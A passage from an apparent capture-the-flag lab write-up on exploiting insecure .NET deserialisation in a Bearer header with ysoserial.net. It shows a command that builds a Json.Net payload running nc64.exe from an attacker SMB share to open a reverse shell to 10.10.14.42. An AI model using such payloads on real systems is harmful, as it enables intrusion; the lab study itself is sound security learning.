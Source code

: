 The response was the same as the decoded cookie value! This means that either the `OAuth2` cookie or the `Bearer` HTTP header value was being deserialised and decoded via `base64` or something. If we remove a few characters from the `Bearer` header, we get an error:

<figure><img src="../../../.gitbook/assets/image (114) (4).png" alt=""><figcaption></figcaption></figure>

If we remove more characters, we get this error:

<figure><img src="../../../.gitbook/assets/image (105) (4).png" alt=""><figcaption></figcaption></figure>

There definitely is an insecure deserialisation exploit here, because the values of the `Bearer` header are likely unsanitised since it still attempts to process it. As such, we can use `ysoserial.exe` to generate a payload to give us a reverse shell.&#x20;

{% embed url="https://github.com/pwntester/ysoserial.net" %}

`ysoserial.exe` has a lot of different gadgets, of which we should be using those that have the `Json.Net` formatters since we were being returned JSON in the request. This also matches the website, since it is hosted using ASP.NET. We can try to get a reverse shell using `smbserver.py` to execute `nc64.exe`.&#x20;

I tried using this gadget, but it didn't work:

```
C:\Users\User\htb\Release>.\ysoserial.exe -g WindowsPrincipal -f Json.Net -c "\\\\10.10.14.42\\share\\nc64.exe -e cmd.exe 10.10.14.42 4444" -o base64
ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXB...
```
